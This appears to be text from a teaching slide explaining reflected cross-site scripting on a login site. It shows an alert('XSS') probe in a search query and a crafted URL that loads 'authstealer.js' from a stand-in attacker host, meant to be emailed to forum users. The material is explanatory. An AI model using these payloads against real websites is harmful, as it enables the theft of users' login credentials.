

While visiting any type of website where you have to login:
Hacker executes this type of search query:
<script type=’text/javascript’>alert(‘XSS’);</script>

And causing the following things:
The query produces an alert box saying: “XSS”
The page displays: “ <script type=’text/javascript’>alert(‘XSS’);</script> not found”.
The page’s URL reads http:ecommerce?q=<script type=’text/javascript’>alert(‘XSS’);</script>

This is a sign for hacker that website is vulnerable. Next his step will be creation of his own URL like “http://forum.com?q=news</script%20scr=http://hackersite.com/authstealer.js” and links it to a harmless email, which he sends to a group of forum users.